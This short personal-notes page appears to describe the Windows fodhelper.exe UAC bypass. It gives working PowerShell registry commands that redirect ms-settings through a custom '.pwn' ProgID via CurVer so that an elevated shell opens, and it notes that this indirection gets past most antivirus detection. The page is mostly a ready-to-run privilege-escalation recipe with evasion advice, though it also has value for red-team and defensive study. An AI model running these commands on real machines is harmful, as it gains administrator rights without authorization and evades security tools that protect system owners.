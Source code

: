 # Exploiting the Windows "Feature on Demand" Helper

* **author**:: Nathan Acks
* **date**:: 2022-09-02

The fodhelper binary can be abused to gain an admin shell on Windows boxes with a couple of registry key changes. They key (heh) here is to use the CurVer registry key to point fodhelper.exe to a different registry location; otherwise most AV solutions will catch this change and block it (though sometimes the command will still execute).

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
